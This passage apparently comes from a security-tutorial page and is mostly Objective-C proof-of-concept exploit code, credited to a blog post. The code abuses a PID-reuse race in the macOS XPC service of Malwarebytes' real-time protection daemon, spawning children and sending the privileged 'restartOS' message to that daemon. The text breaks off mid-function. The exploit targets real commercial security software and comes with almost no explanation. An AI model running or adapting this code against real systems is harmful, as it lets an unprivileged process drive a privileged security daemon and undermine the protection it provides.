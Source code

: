 {% tabs %}
{% tab title="NSTasks" %}
First option using **`NSTasks`** and argument to launch the children to exploit the RC

```objectivec
// Code from https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/
// gcc -framework Foundation expl.m -o expl

#import <Foundation/Foundation.h>
#include <spawn.h>
#include <sys/stat.h>

#define RACE_COUNT 32
#define MACH_SERVICE @"com.malwarebytes.mbam.rtprotection.daemon"
#define BINARY "/Library/Application Support/Malwarebytes/MBAM/Engine.bundle/Contents/PlugIns/RTProtectionDaemon.app/Contents/MacOS/RTProtectionDaemon"

// allow fork() between exec()
asm(".section __DATA,__objc_fork_ok\n"
"empty:\n"
".no_dead_strip empty\n");

extern char **environ;

// defining necessary protocols
@protocol ProtectionService
- (void)startDatabaseUpdate;
- (void)restoreApplicationLauncherWithCompletion:(void (^)(BOOL))arg1;
- (void)uninstallProduct;
- (void)installProductUpdate;
- (void)startProductUpdateWith:(NSUUID *)arg1 forceInstall:(BOOL)arg2;
- (void)buildPurchaseSiteURLWithCompletion:(void (^)(long long, NSString *))arg1;
- (void)triggerLicenseRelatedChecks;
- (void)buildRenewalLinkWith:(NSUUID *)arg1 completion:(void (^)(long long, NSString *))arg2;
- (void)cancelTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)startTrialWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)unredeemLicenseKeyWith:(NSUUID *)arg1 completion:(void (^)(long long))arg2;
- (void)applyLicenseWith:(NSUUID *)arg1 key:(NSString *)arg2 completion:(void (^)(long long))arg3;
- (void)controlProtectionWithRawFeatures:(long long)arg1 rawOperation:(long long)arg2;
- (void)restartOS;
- (void)resumeScanJob;
- (void)pauseScanJob;
- (void)stopScanJob;
- (void)startScanJob;
- (void)disposeOperationBy:(NSUUID *)arg1;
- (void)subscribeTo:(long long)arg1;
- (void)pingWithTag:(NSUUID *)arg1 completion:(void (^)(NSUUID *, long long))arg2;
@end

void child() {

    // send the XPC messages
    NSXPCInterface *remoteInterface = [NSXPCInterface interfaceWithProtocol:@protocol(ProtectionService)];
    NSXPCConnection *xpcConnection = [[NSXPCConnection alloc] initWithMachServiceName:MACH_SERVICE options:NSXPCConnectionPrivileged];
    xpcConnection.remoteObjectInterface = remoteInterface;

    [xpcConnection resume];
    [xpcConnection.remoteObjectProxy restartOS];

    char target_binary[] = BINARY;
    char *target_argv[] = {target_binary, NULL};
    posix_spawnattr_t attr;
```